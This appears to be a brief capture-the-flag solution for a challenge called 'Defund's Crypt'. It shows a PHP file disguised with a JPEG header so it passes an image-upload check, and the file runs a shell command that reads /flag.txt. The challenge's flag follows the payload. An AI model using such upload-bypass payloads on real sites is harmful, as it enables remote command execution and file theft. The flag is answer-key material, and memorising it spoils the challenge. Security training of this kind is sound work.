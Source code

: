 # Defund's Crypt

```php
ÿØÿà JFIF  
<?php
system("cat /flag.txt");
?>
```

## actf{th3\_ch4ll3ng3\_h4s\_f4ll3n\_but\_th3\_crypt\_rem4ins}

